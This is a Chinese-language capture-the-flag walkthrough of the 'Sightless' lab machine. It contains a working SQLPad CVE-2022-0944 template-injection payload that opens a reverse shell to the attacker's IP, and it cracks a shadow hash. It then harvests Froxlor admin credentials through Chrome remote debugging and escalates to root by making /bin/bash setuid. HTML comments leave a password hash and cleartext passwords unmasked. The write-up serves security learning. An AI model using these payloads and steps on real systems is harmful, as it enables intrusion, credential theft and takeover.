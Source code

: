 # Sightless

> 本机 IP: 10.11.11.12
>
> 目标 IP: 10.11.11.11
>
> 参考 [wp1](https://blog.csdn.net/m0_52742680/article/details/142123113) [wp2](https://loghmariala.github.io/posts/Sightless/)

```shell
$ nmap -sSVC 10.11.11.11
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings:
|   GenericLines:
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.11.11.11]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Sightless.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)

$ vi /etc/host
[+] 10.11.11.11 sightless.htb
```

访问 sightless.htb，其中有一个跳转到 sqlpad.sightless.htb

```shell
$ vi /etc/host
[+] 10.11.11.11 sqlpad.sightless.htb
```

访问 http://sqlpad.sightless.htb/ 是一个 SQLPad 组件，搜索存在漏洞 CVE-2022-0944，6.10.1 之前版本存在注入漏洞，可远程执行代码

<!-- [wp](https://blog.csdn.net/m0_52742680/article/details/142123113)，burp抓包可看具体版本为6.10.0 -->

Linux 监听:`nc -lvvp 2333` -> 连接 -> Driver:MySQL -> Database 输入 payload 反弹 shell:

```sql
-- Database 中输入后保存
{{ process.mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.11.11.12/2333 0>&1"') }}
```

反弹成功后显示权限为 root

```shell
# 在 docker 中
/var/lib/sqlpad $ cd /

/ $ ls -al
-rwxr-xr-x   1 root root    0 Aug  2 09:30 .dockerenv
-rwxr-xr-x   1 root root  413 Mar 12  2022 docker-entrypoint

/ $ ls -alh /.dockerenv
-rwxr-xr-x 1 root root 0 Aug  2 09:30 /.dockerenv
```

有文件`.dockerenv`和`docker-entrypoint`，判断在 docker 中

```shell
$ cat /etc/passwd
node:x:1000:1000::/home/node:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash

$ cat /etc/shadow
node:!:19053:0:99999:7:::
michael:⬛⬛⬛:19860:0:99999:7:::
```

<!-- 复制 michael 的密码 hash 值`$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/`到文件`hash`中进行解密 -->

复制 michael 的密码 hash 值`⬛⬛⬛`到文件`hash`中进行解密

<!-- ```shell
$ john hash -w=/usr/share/wordlists/rockyou.txt
...
insaneclownposse (?)
...
``` -->

```shell
$ john hash -w=/usr/share/wordlists/rockyou.txt
...
⬛⬛⬛ (?)
...
```

<!-- ssh 使用 michael/insaneclownposse 登录成功 -->

ssh 使用 michael/⬛⬛⬛ 登录成功

```shell
michael@sightless:~$ ls
user.txt
```

开始提权

```shell
# 无果
# michael@sightless:~$ sudo -l
# michael@sightless:~$ find / -perm -u=s -f type 2>/dev/null
# 还有一个用户 john，UID=1001 但是没权限

michael@sightless:~$ ss -tlnp
...
LISTEN    0    511    127.0.0.1:8080    0.0.0.0:*
LISTEN    0    10     127.0.0.1:18888   0.0.0.0:*
...
```

Send-Q=10 的端口后面会用，先将 8080 转发至本地

```shell
# local
$ ssh -L 8080:127.0.0.1:8080 michael@sightless.htb -N -f

# -N：不执行远程命令
# -f：在后台运行SSH会话
```

访问 http://127.0.0.1:8080/ 到 Froxlor 登录界面，无果

上传 pspy64 查看进程信息

```shell
$ scp /root/Desktop/pspy64 michael@sightless.htb:/tmp

michael@sightless:/tmp$ chmod +x pspy64
michael@sightless:/tmp$ ./pspy64
2024/09/13 07:31:24 CMD: UID=1001  PID=1822   | /opt/google/chrome/chrome --type=renderer --headless --crashpad-handler-pid=1768 --no-sandbox --disable-dev-shm-usage --enable-automation --remote-debugging-port=0 --test-type=webdriver --allow-pre-commit-input --ozone-platform=headless --disable-gpu-compositing --lang=en-US --num-raster-threads=1 --renderer-client-id=5 --time-ticks-at-unix-epoch=-1726211554077008 --launch-time-ticks=276762732 --sh
2024/09/13 07:31:24 CMD: UID=1001  PID=1793   | /opt/google/chrome/chrome --type=utility --utility-sub-type=network.mojom.NetworkService --lang=en-US --service-sandbox-type=none --no-sandbox --disable-dev-shm-usage --use-angle=swiftshader-webgl --use-gl=angle --headless --crashpad-handler-pid=1768 --shared-files=v8_context_snapshot_data:100 --field-trial-handle=3,i,1365604885317938204,13150205076573000667,262144 --disable-features=PaintHolding --variations-seed-version --enable-logging --log-level=0 --enable-crash-reporter
2024/09/13 07:31:24 CMD: UID=1001  PID=1790   | /opt/google/chrome/chrome --type=gpu-process --no-sandbox --disable-dev-shm-usage --headless --ozone-platform=headless --use-angle=swiftshader-webgl --headless --crashpad-handler-pid=1768 --gpu-preferences=WAAAAAAAAAAgAAAMAAAAAAAAAAAAAAAAAABgAAEAAAA4AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGAAAAAAAAAAYAAAAAAAAAAgAAAAAAAAACAAAAAAAAAAIAAAAAAAAAA== --use-gl=angle --shared-files --field-trial-handle=3,i,1365604
2024/09/13 07:31:24 CMD: UID=1001  PID=1773   | /opt/google/chrome/chrome --type=zygote --no-sandbox --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=1768 --enable-crash-reporter
2024/09/13 07:31:24 CMD: UID=1001  PID=1772   | /opt/google/chrome/chrome --type=zygote --no-zygote-sandbox --no-sandbox --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=1768 --enable-crash-reporter
2024/09/13 07:31:24 CMD: UID=1001  PID=1768   | /opt/google/chrome/chrome_crashpad_handler --monitor-self-annotation=ptype=crashpad-handler --database=/tmp/Crashpad --url=https://clients2.google.com/cr/report --annotation=channel= --annotation=lsb-release=Ubuntu 22.04.4 LTS --annotation=plat=Linux --annotation=prod=Chrome_Headless --annotation=ver=125.0.6422.60 --initial-client-fd=6 --shared-client-connection
2024/09/13 07:31:24 CMD: UID=1001  PID=1763   | /opt/google/chrome/chrome --allow-pre-commit-input --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-dev-shm-usage --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-logging --headless --log-level=0 --no-first-run --no-sandbox --no-service-autorun --password-store=basic --remote-debugging-port=0 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.org.chromium.Chromium.0ge2G9 data:,
```

进程中开启了谷歌，参考文章[Chrome Remote Debugger Pentesting](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/)，对其他端口进行转发，其中有个 Send-Q=10 端口 18888

```shell
LISTEN    0    10     127.0.0.1:18888   0.0.0.0:*

$ ssh -L 18888:127.0.0.1:18888 michael@sightless.htb -N -f
```

谷歌，访问`chrome://inspect/#devices`

<!-- Devices -> Configure -> localhost:18888 -> Enable port forwarding -> Done -> Remote Target -> Froxlor -> inspect -> 开发者控制台 Network -> index.php -> payload -> admin/ForlorfroxAdmin -->

Devices -> Configure -> localhost:18888 -> Enable port forwarding -> Done -> Remote Target -> Froxlor -> inspect -> 开发者控制台 Network -> index.php -> payload -> admin/⬛⬛⬛

登录进入 Froxlor -> PHP -> PHP-FPM versions -> Create new PHP version -> php-fpm restart command: chmod 4777 /bin/bash -> save -> System -> Settings -> PHP-FPM -> SAVE -> Click here to continue

```shell
# wait a minute
michael@sightless:~$ ls -al /bin/bash
-rwsrwxrwx 1 root root ... /bin/bash
michael@sightless:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cd /root
bash-5.1# ls
root.txt
```
